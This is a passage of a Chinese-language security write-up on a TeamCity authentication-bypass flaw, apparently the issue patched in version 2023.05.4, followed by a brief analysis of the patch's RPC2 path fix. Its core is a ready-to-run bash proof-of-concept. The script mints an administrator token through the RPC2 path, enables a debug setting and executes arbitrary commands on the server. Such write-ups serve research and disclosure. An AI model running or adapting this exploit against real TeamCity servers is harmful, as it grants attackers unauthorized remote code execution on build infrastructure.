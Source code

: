 所以poc如下：

可以通过/app/rest/users/端点创建管理员权限token，/app/rest/debug/processes?exePath=可以执行任意命令。

```shell
#!/bin/bash

if [ "$#" -ne 3 ]; then
    echo "Usage: $0 <base_url> <port> <command>"
    exit 1
fi

BASE_URL="$1"
PORT="$2"
COMMAND="$3"

TOKEN_ENDPOINT="${BASE_URL}:${PORT}/app/rest/users/id:1/tokens/RPC2"
EDIT_FILE_ENDPOINT="${BASE_URL}:${PORT}/admin/dataDir.html?action=edit&fileName=config/internal.properties&content=rest.debug.processes.enable=true"
RCE_ENDPOINT="${BASE_URL}:${PORT}/app/rest/debug/processes?exePath=${COMMAND}"

TOKEN_RESPONSE=$(curl -X POST "$TOKEN_ENDPOINT")
BEARER_TOKEN=$(echo "$TOKEN_RESPONSE" | grep -oP 'value="\K[^"]+')

curl -s -X POST "$EDIT_FILE_ENDPOINT" -H "Authorization: Bearer ${BEARER_TOKEN}"

RESPONSE=$(curl -s -X POST "$RCE_ENDPOINT" -H "Authorization: Bearer ${BEARER_TOKEN}" | awk -F 'StdOut:|StdErr:' '{print $2}' )

curl -s -X DELETE "$TOKEN_ENDPOINT" -H "Authorization: Bearer ${BEARER_TOKEN}"

echo $RESPONSE
```

## 五、漏洞修复：

顺便分析一下漏洞补丁：[https://blog.jetbrains.com/zh-hans/teamcity/2023/09/critical-security-issue-affecting-teamcity-on-premises-update-to-2023-05-4-now/](https://blog.jetbrains.com/zh-hans/teamcity/2023/09/critical-security-issue-affecting-teamcity-on-premises-update-to-2023-05-4-now/)

还是一样通过工具反编译补丁包，这段代码在

myPreHandlingDisabled 对象中添加了路径 "/RPC2" 并删除了所有匹配 "/\*\*/RPC2" 的路径。这意味着它禁止访问所有类似 "/example/RPC2"、"/test/RPC2" 这样的路径。
